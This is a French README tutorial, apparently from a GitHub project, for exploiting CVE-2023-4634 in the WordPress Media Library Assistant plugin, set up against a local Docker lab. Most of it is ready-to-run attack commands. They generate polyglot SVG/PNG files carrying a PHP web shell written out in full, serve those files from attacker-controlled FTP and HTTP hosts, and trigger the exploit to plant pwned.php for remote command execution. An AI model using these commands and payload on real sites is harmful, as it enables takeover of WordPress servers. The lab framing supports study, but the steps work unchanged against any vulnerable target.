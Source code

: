 # ProjetCL

```markdown
# Tuto CVE-2023-4634

## Cloner le dépôt Git

Pour commencer, clonez le dépôt Git à l'aide de la commande suivante :

```bash
git clone https://github.com/lehazare/ProjetCL.git
```

## Construction et exécution du conteneur WordPress

Pour exécuter le conteneur WordPress, utilisez la commande suivante :

```bash
docker-compose up --force-recreate
```

> Note : Pour simplifier, vous pouvez utiliser `docker-compose up` sans l'option `--force-recreate`. L'option `--force-recreate` est ajoutée ici pour assurer que l'image du conteneur WordPress soit reconstruite si nécessaire.

## Installation du plugin MLA en version compromise (ex : 3.07) sur WordPress

Consultez la vidéo pour des instructions détaillées sur l'installation du plugin MLA.

## Tester avec Nuclei

Cette étape est optionnelle mais vous permet de vous assurer que l'image WordPress est correctement configurée et que le plugin MLA est installé dans une version compromise.

1. Installez Nuclei en utilisant la commande appropriée pour votre système (`brew install nuclei`, `sudo apt install nuclei`, etc.).
2. Utilisez la commande suivante pour tester avec Nuclei :

```bash
nuclei -u http://0.0.0.0:8080 -t ./CVE-2023-4634.yaml
```

> Note : Modifiez `0.0.0.0:8080` en fonction de l'emplacement où votre conteneur WordPress est en cours d'exécution.

## Début de l'attaque

### Objectif

L'objectif est d'accéder à l'URL suivante :

```
http://localhost:8080/pwned.php?cmd=ls
```

### Installation des modules Python nécessaires

Installez les modules Python nécessaires en utilisant la commande suivante :

```bash
python3 -m pip install -r requirements.txt
```

### Pour tester

Pour effectuer un test, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py -h
```

### Trouver l'adresse de sa machine

Utilisez la commande suivante pour obtenir l'adresse IP de votre machine :

```bash
ifconfig
```

Vous pouvez tester la connectivité en utilisant la commande `ping`.

### FTP

Génération des fichiers SVG :

```bash
python3 CVE-2023-4634.py --generatesvg --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --remotehttp http://192.168.1.103:8081 --png_polyglot_name virus.png --webserverpath /var/www/html --exploitname pwned.php
```

Créez un serveur FTP avec les fichiers SVG en exécutant la commande suivante dans le répertoire `remote_ftp` :

```bash
cd remote_ftp && python3 -m pyftpdlib -p 2122
```

### HTTP

Génération de l'image virus :

```bash
python3 CVE-2023-4634.py --generatepng --payload "<?php if(isset(\$_REQUEST['cmd'])){ echo \"<pre>\"; \$cmd = (\$_REQUEST['cmd']); system(\$cmd); echo \"</pre>\"; die; }?>" --png_polyglot_name virus.png
```

Créez un serveur HTTP avec l'image virus en exécutant la commande suivante dans le répertoire `exploit-png` :

```bash
cd exploit-png && python3 -m http.server 8081
```

### Exploitation

Pour l'exploitation, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py --target http://localhost:8080 --remoteftp ftp://192.168.1.103:2122 --remotehttp http://192.168.1.103:8081 --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --png_polyglot_name virus.png --exploitname pwned.php
```

Vous pouvez tester l'exploit en ajoutant une commande à l'URL, par exemple :

```
http://localhost:8080/pwned.php?cmd=ls
```

Consultez la vidéo pour plus de détails.
```

N'hésitez pas à personnaliser le document Markdown en fonction de vos besoins.

